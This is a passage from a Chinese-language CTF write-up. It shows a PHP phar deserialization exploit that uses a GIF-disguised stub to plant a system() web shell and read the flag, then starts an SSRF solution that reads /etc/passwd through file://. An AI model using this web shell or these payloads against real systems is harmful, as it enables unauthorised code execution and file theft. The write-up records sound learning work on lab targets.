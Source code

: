都想好就開始攻擊，先寫好phar的檔案，phar的template參考了這個網站
http://www.lmxspace.com/2018/11/07/%E9%87%8D%E6%96%B0%E8%AE%A4%E8%AF%86%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-Phar/
另外file的上傳會檢查最前面有沒有GIF的magic number，可以透過phar的stub在phar檔前面塞入GIF來通過檢查
我產phar檔的php如下，會先塞入halt_compiler的stub部份來讓文件被識別成phar檔，並在stub加入GIF header
之後寫好Meme class的內容，因為content是private的關係，不能直接用new的object去access，只好去修改constructor的部份讓filename是你想要的php檔名跟路徑
透過new來新增Meme object，把content設成可以透過參數a進行rce的system指令，再把object塞到metadata裡面，因為metadata的內容會被unserialize
```php=
<?php
	class Meme
	{
		public $title;
		public $author;
		public $filename;
		private $content = NULL;
		function __construct($title, $author, $content = NULL)
		{
			$this->title = $title;
			$this->author = $author;
			$this->content = $content;
			$this->filename = "images/john6090212/getshell.php";
		}
	}
	@unlink("phar.phar");
	$phar = new Phar("phar.phar"); 
    $phar->startBuffering();
	$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); 
	$o = new Meme("test",NULL,"<?php system(\$_GET[\"a\"]); ?>");
	$phar->setMetadata($o); 
	$phar->addFromString("test.txt", "test"); 
    $phar->stopBuffering();
?>
```
寫完以後把php.ini的phar.readonly改成Off來讓phar檔可以順利產生
產生完先登入john6090212這個user，把phar檔上傳上去，我title是寫123，所以檔案路徑會在/images/john6090212/123.gif

接著清掉session回到登入畫面，重新以phar://john6090212/123.gif的username登入，沒有images的原因是因為is_dir呼叫當下的directory是在images，登入後成功觸發反序列化上傳getshell.php檔案到images/john6090212/getshell.php

成功連到下面的檔案路徑確認檔案已被上傳http://rero.splitline.tw:8893/images/john6090212/getshell.php
透過get參數a執行rce，一樣根據splitline的習慣去根目錄找，成功看到flag
http://rero.splitline.tw:8893/images/john6090212/getshell.php?a=ls%20/
```
bin boot dev etc flag_b3I10KyNv9 home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
```
用cat指令得到flag內容 (flag好レロレロ= =)
```
FLAG{レロレロ?RERO!レロレロ,RERO?レロレロ~}
```
## 陸拾肆基底編碼之遠端圖像編碼器
### 解法
題目有個可以輸url的地方，先試著輸個簡單的ssrf payload
檢查壞掉的圖片內容，並做base64 decode，確認有ssrf漏洞
```
payload: file:///etc/passwd
```
隨便在題目網址後面加個/dog.php發現會噴apache的錯誤訊息，得知網站使用apache server，也就是網站檔案大概率放在/var/www/html
接著先到/var/www/html抓index.php的source code，以下是比較重要的部份，裡面include新的php file
